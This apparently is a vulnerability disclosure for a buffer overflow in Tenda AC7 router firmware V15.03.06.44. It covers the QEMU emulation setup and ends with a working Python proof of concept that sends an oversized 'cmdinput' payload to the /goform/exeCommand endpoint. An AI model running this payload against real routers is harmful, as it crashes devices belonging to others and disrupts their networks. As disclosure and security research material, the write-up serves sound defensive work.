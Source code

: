 Overview
--------

Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/6c8f66b9-f107-4610-973f-d5f4365cfbd8)

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.0.1/24
brctl addif br0 ens33//搭建网桥
```

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7\_\_V15.03.06.44\_httpd\_ok file in this project) (modify the assembly to force skip the environment check step): [https://github.com/Raining-101/IOT\_cve/blob/main/a7\_\_V15.03.06.44\_httpd\_ok](https://github.com/Raining-101/IOT_cve/blob/main/a7__V15.03.06.44_httpd_ok)

qemu command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
----------------

V15.03.06.44

Vulnerability Details
----------------
A buffer overflow vulnerability exists in TenDa AC7 V15.03.06.44 firmware feature. This function copies the contents of the string to cmd_buf without performing a boundary check. Therefore, if the length is longer than 512 bytes, it can cause a buffer overflow, overwriting the memory area behind the array, which can cause the program to crash and trigger this security vulnerability.

![image](https://github.com/user-attachments/assets/ba19c8a1-732d-4dac-8258-6344af10f9b2)

### poc
```text-plain
import requests
ip = "192.168.142.100"
url = "http://" + ip + "/goform/exeCommand"
payload = b"Raining"*3000

data = {"cmdinput": payload}
response = requests.post(url, data=data)
print(response.text)
```
![image](https://github.com/user-attachments/assets/b264dd64-a269-4d65-9066-aceb53658512)




